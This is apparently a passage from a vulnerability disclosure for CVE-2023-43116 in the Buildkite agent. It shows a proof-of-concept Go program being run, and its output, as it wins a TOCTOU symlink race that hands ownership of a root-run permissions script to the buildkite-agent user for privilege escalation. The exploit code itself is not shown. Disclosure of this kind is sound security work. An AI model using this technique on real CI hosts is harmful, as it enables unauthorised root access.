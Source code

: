 Succesful exploitation results in changing ownership of the `fix-buildkite-agent-builds-permissions` script to `buildkite-agent` which can then be modified and executed to escalate privileges as descibed in CVE-2023-43116 - Symbolic Link Following:

```sh
$ go run toctou-poc.go 
..............................................................................................................
..............................................................................................................
..............................................................................................................
.........................................................................................boom!
ownership changed:
-rwxr-xr-x 1 buildkite-agent buildkite-agent 2.7K Sep 14 07:56 /usr/bin/fix-buildkite-agent-builds-permissions
```
**Changing Ownership of `fix-buildkite-agent-builds-permissions`**
